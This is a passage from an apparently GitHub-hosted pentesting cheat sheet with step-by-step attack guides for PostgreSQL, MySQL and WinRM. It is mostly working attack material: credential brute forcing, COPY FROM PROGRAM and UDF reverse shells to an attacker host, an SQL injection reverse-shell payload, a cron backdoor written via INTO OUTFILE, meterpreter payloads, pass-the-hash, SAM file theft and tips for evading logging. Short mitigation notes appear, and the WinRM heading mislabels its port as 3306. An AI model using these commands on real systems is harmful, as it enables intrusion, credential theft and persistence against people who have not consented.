uid=2008(vulnix) gid=2008(vulnix_group) groups=2008(vulnix_group)
```

If the UID or GID is incorrect, you must delete and recreate the user with:

```jsx
sudo userdel vulnix
sudo groupdel vulnix_group
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --gid 2008 --groups vulnix_group vulnix
```

Now, try accessing the directory as `vulnix_user`:
![image](https://github.com/user-attachments/assets/90546368-1291-4e7a-b7c9-52a148eef779)

</details>


<details>
<summary>12. PostgreSQL 5432</summary>
 <br>
 PostgreSQL, also known as Postgres, is an advanced open-source relational database used across major platforms (Linux, Windows, Mac). It ships by default with macOS and is often used in enterprise backends.

PostgreSQL includes powerful functionality such as user-defined functions, server-side programming, and even the ability to execute system commands — which, when misconfigured, becomes a privilege escalation or RCE vector.

🎯 Attack Goals
Gain remote shell access

Escalate privileges (via SYSTEM/root or postgres user)

Lateral movement within internal networks

🧪 Step-by-Step Exploitation
🔐 Step 1: Brute-force PostgreSQL Credentials (if creds not known)
bash

    hydra -L /usr/share/wordlists/metasploit/postgres_default_user.txt \ -P /usr/share/wordlists/metasploit/postgres_default_pass.txt \ <target-ip> postgres
👉 This attempts default user:pass combinations like postgres:postgres.

📥 Step 2: Log in with psql or Metasploit module
bash

    psql -h <target-ip> -U postgres -W
or via Metasploit:

bash

    use auxiliary/scanner/postgres/postgres_login
☠️ Step 3: Confirm Privileges (Key Requirement!)
This RCE works only if:

The user is superuser or

The user has pg_execute_server_program role

Check roles:

sql

    \du
Look for:

pgsql

    postgres | Superuser, Create role, Create DB, Replication, Bypass RLS
or:

sql

    SELECT usesuper, usename FROM pg_user;
💥 Step 4: Achieve Code Execution via COPY FROM PROGRAM
This PostgreSQL feature allows importing data from an OS command.

Example: Windows Reverse Shell (PowerShell)
sql

    CREATE TABLE cmd_out(data text);
    COPY cmd_out FROM PROGRAM 'powershell -EncodedCommand <Base64Payload>';
👉 Base64Payload is your reverse shell (msfvenom -p windows/x64/powershell_reverse_tcp)

Linux Example:
sql

    COPY cmd_out FROM PROGRAM '/bin/bash -c "bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1"';
🛠 Tools to generate shell payloads:

bash

    msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw
🛠️ Alternative Methods of Exploitation
1. User-Defined Functions (UDF) via Shared Object Libraries
Upload a malicious .so (Linux) or .dll (Windows) and load it using:

sql

    CREATE FUNCTION sys_exec(text) RETURNS int
    AS '/tmp/malicious.so', 'exec'
    LANGUAGE C STRICT;
    SELECT sys_exec('nc -e /bin/bash <attacker-ip> <port>');
Requires superuser privileges and shared_preload_libraries.

2. Writable Filesystem Abuse
Check writable paths:

sql

    COPY cmd_out TO '/tmp/test.txt';
If successful, you can:

Write malicious scripts
Drop cron jobs (Linux)
Schedule tasks (Windows)

3. SQL Injection in Web Applications
If PostgreSQL is the backend and the app is vulnerable to SQLi:

sql

    '; COPY cmd_out FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"' --
Useful if you don’t have creds but have SQLi in a web app.

🧼 Cleanup (Optional)
sql

    DROP TABLE cmd_out;
🔒 Detection & Mitigation
Defense Area	Recommendation
🔐 Privilege Restriction	Avoid granting pg_execute_server_program or superuser to non-admin users
🔍 Logging	Enable query logging: log_statement = 'all'
🛡️ Disable COPY PROGRAM	Use PostgreSQL --disable-copy-program or AppArmor/SELinux
📦 Application Security	Sanitize SQL inputs to prevent injection
🔑 Credential Hygiene	Avoid default credentials and enforce strong auth
🔁 Regular Audits	Monitor user roles (\du) and extensions (\dx)

📌 Summary
Stage	Command
Brute Force	hydra -L ... -P ... <ip> postgres
Check Privs	\du or SELECT usesuper FROM pg_user;
Reverse Shell	COPY ... FROM PROGRAM 'bash ...'
UDF Execution	CREATE FUNCTION ... with .so/.dll
SQLi RCE	Inject COPY command via vulnerable web app

📎 Reference
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
Greenwolf Security – PostgreSQL RCE via COPY

Metasploit Modules

exploit/multi/postgres/postgres_copy_from_program_cmd_exec

exploit/windows/postgres/postgres_payload
</details>
<details>
<summary>13. MYSQL Port 3306</summary>
 <br>
🔎 Step 1: Enumeration
Start with identifying whether port 3306 (default MySQL port) is open:

bash

    nmap -p3306 -sV -sC <target-ip>
Add aggressive scanning options for version detection and default script scans:

bash

    nmap -p3306 --script mysql* -sV <target-ip>
This will also try:

Default creds

Enumerate MySQL users

Check for anonymous access

🔑 Step 2: Brute Forcing MySQL Credentials
bash

    hydra -L users.txt -P pass.txt <ip> mysql
Alternatively, you can use medusa:

bash

    medusa -h <ip> -u root -P pass.txt -M mysql
Or use ncrack (especially good for fast brute-forcing):

bash

    ncrack -p 3306 -U users.txt -P pass.txt <ip>
🧠 Step 3: Manual Login (Once Valid Credentials Are Found)
bash

    mysql -h <ip> -u <user> -p
Once logged in, you can:

List databases: show databases;

Use a DB: use mysql;

Check users: select user, host, authentication_string from mysql.user;

⚡ Step 4: Exploitation via Metasploit
A. Run SQL Queries Directly
bash

    msfconsole -q
    use auxiliary/admin/mysql/mysql_sql
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    set sql show databases;
    run
B. Dump Password Hashes
bash

    use auxiliary/scanner/mysql/mysql_hashdump
    set rhosts <target-ip>
    set username <user>
    set password <pass>
    run
C. Run Commands via UDF (User Defined Function) Injection (for RCE)
bash

    use exploit/windows/mysql/mysql_udf_payload
    set rhosts <target-ip>
    set username root
    set password toor
    set payload windows/meterpreter/reverse_tcp
    set lhost <attacker-ip>
    set lport 4444
    run
✅ This exploit creates a custom function using a shared library (.dll or .so) and then calls it through SQL to gain RCE.

🧪 Step 5: Manual RCE via User-Defined Functions (UDF)
If file_priv is granted, you can:

Upload a malicious .dll or .so UDF file.

Register it with SQL:

sql

    CREATE FUNCTION do_system RETURNS integer SONAME 'lib_mysqludf_sys.so';
    SELECT do_system('nc <attacker-ip> 4444 -e /bin/bash');
On Windows:

sql

    SELECT do_system('powershell -c <reverse_shell_payload>');
🪵 Step 6: Post Exploitation
Dump user tables:

sql

    select user, password from mysql.user;
Look for saved credentials or tokens in application databases

Exfiltrate configuration files, secrets, keys

🛡️ Detection & Mitigation
Disable root login from remote IPs (bind-address=127.0.0.1 in my.cnf)

Enforce strong passwords and remove default credentials

Regularly audit MySQL users and their privileges

Monitor for signs of brute-force (slow query logs, login failures)

Consider enabling TLS encryption for connections

Use MySQL roles to minimize privilege exposure

🔁 Alternatives Tools for MySQL Pentesting
Tool	Purpose
sqlmap	Exploit SQL injection vulnerabilities
mysql_enum (NSE Script)	MySQL database enumeration
DBPwAudit	Fast credential bruteforcer
mariadb-client	Compatible client for login and testing
Metasploit	Multiple auxiliary and exploit modules

🧷 Additional Notes
MySQL with misconfigured permissions (e.g., file_priv, secure_file_priv) allows file upload or command execution

Some versions allow writing to crontab via SELECT ... INTO OUTFILE if not locked down

sql

    SELECT '*/1 * * * * root nc <ip> 4444 -e /bin/bash' INTO OUTFILE '/etc/cron.d/mysqlbackdoor';

</details>

<details>
<summary>14. WinRM 3306</summary>
 <br>
📌 What is WinRM?
Windows Remote Management (WinRM) is Microsoft’s implementation of the WS-Management protocol based on SOAP. It allows remote management of Windows systems and is enabled by default in some environments.

Port 5985 → WinRM over HTTP (unencrypted unless message-level encryption is used)

Port 5986 → WinRM over HTTPS (encrypted)

🔎 Initial Enumeration
Check if WinRM is exposed:

bash

    nmap -p 5985,5986 -sV -Pn <target-ip> --script http-winrm*
Use nmap with WinRM-specific NSE scripts:

bash

    nmap -p5985 --script=winrm-auth <target-ip>
Or check manually using curl:

bash

    curl -s -X POST http://<ip>:5985/wsman
If the response contains wsman, the service is alive.

🧪 Metasploit Enumeration
Check for Supported Auth Methods:
bash

    msfconsole
    use auxiliary/scanner/winrm/winrm_auth_methods
    set RHOSTS <target-ip>
    run
🔐 Brute-Force WinRM Credentials
1. Metasploit Module
bash

       use auxiliary/scanner/winrm/winrm_login
       set RHOSTS <target-ip>
       set user_file users.txt
       set pass_file passwords.txt
       set DOMAIN WORKSTATION
       run
2. Password Spray with nxc (lightweight & fast):
bash

       nxc winrm <ip> -u users.txt -p passwords.txt
🧠 Remote Shell with Valid Credentials
1. evil-winrm (Preferred Tool)
bash

       evil-winrm -i <target-ip> -u <user> -p <password>
Supports:

Upload/download
Powershell scripting
Proxy support
Kerberos & pass-the-hash (see below)

2. Docker Evil-WinRM (for Linux users)
bash

       docker run -it --rm --name evil-winrm --entrypoint evil-winrm oscarakaelvis/evil-winrm -i <ip> -u <user> -p <password>
🧪 Alternative Shells
1. PowerShell Remoting (Linux to Windows)
Using PowerShell NTLM Docker:

bash

    docker run -it quickbreach/powershell-ntlm
    $creds = Get-Credential
    Enter-PSSession -ComputerName <ip> -Authentication Negotiate -Credential $creds
2. Ruby WinRM Shell Script
Download & configure this Ruby script:

bash

    wget https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell_with_upload.rb
    nano winrm_shell_with_upload.rb  # Set IP, creds
    ruby winrm_shell_with_upload.rb
3. Powershell Empire / Covenant
You can use tools like:

Empire

Covenant

PSSharp
To execute WinRM-based agents if lateral movement or persistent C2 is required.

🧯 Pass-the-Hash with Evil-WinRM
If you have an NTLM hash, use:

bash

    evil-winrm -i <target-ip> -u <user> -H <NTLM_hash>
Or use Impacket's wmiexec.py or psexec.py as alternatives.

🔁 Lateral Movement
If you compromise a user with WinRM access on other systems:

bash

    evil-winrm -i <target-2> -u compromised_user -p password
Or use built-in PS remoting:

powershell

    Invoke-Command -ComputerName target2 -ScriptBlock { whoami } -Credential (Get-Credential)
📤 Post Exploitation with Evil-WinRM
bash

    upload <local-file> C:\Users\Public\payload.exe
    download C:\Windows\System32\config\SAM
    scripts
Built-in modules:

BloodHound
PowerView
SharpHound
PowerUp

🕵️ Detection Evasion Tips
Avoid brute-force from same IP: use --proxy or TOR routing

Disable PowerShell logging where possible

Modify Evil-WinRM user-agent string if using HTTPS

Consider using Kerberos authentication to reduce logs (with --auth kerberos)

🛡️ Defensive Notes / Mitigations
Disable WinRM if not needed:

powershell

    Disable-PSRemoting -Force
Use HTTPS + Cert-based Auth if enabled

Enable logging (Microsoft-Windows-WinRM/Operational)

Use GPO to restrict which users can access via WinRM

Monitor for new evil-winrm.exe or PS remoting activity

Limit "Remote Management Users" group

🧰 Related Tools Summary
Tool	Use
evil-winrm	Remote PS shell
nxc	Fast password spray
crackmapexec	SMB/WinRM enumeration
PSRemoting	Native method
Impacket	Pass-the-hash over WinRM (via SMB/WMI/PSEXEC)
wmiexec.py	WMI exec using hashes
pywinrm	Python-based WinRM library
Metasploit	Brute-force, auth check

</details>
  
